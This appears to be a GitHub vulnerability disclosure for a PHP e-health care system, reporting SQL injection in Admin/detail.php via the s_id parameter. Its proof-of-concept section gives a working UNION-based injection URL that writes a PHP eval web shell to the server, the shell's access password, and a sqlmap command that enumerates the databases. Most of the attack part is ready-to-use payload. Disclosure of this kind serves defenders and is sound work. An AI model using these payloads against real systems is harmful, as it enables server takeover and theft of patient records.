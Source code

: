 # E-Health Care System IN PHP has get shell and sql injection vulnerability.

## supplier
https://code-projects.org/e-health-care-system-in-php-css-js-and-mysql-free-download/
## Vulnerability file
/Admin/detail.php
## describe
An unrestricted **SQL injection** And **shell file writing** exists in Admin/detail.php of  E-Health Care System . The parameters that can be controlled are as follows: **$_GET['s_id']** . This function executes the **$_GET['s_id']**parameter into the SQL statement without any restrictions. Hacker can write shell.php to the website servers.  A malicious attacker also could exploit this vulnerability to obtain sensitive information in the server database.

## code analysis
The **$_GET['s_id']**parameters of the /Admin/detail.php are not filtered and concatenated into the SQL statement for execution. 

![image-20241106213127406](https://github.com/user-attachments/assets/c806e968-65f7-41fc-8a2f-15344cc3bcd1)



## POC

### RCE

Access this URL,  we will write shell file on the website server.

```
http://healthcare/Admin/detail.php?s_id=1' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,'<?php eval($_POST[cmd]);?>' into outfile 'D:/phpstudy_pro/WWW/HealthCare/shell.php'--+
```

Connect to the shell.php

```
url:  http://healthcare/shell.php
password:   cmd
```

![image-20241106212244435](https://github.com/user-attachments/assets/e07b1229-19b8-4aa9-961d-222bb460e753)

### GET DATA

```
http://healthcare/Admin/detail.php?s_id=1*
```

excute the command

```
python sqlmap.py -u "http://healthcare/Admin/detail.php?s_id=1*" --dbs
```

![image-20241106220918677](https://github.com/user-attachments/assets/ed59bd6a-9d00-410a-90a6-bed45b1c7d26)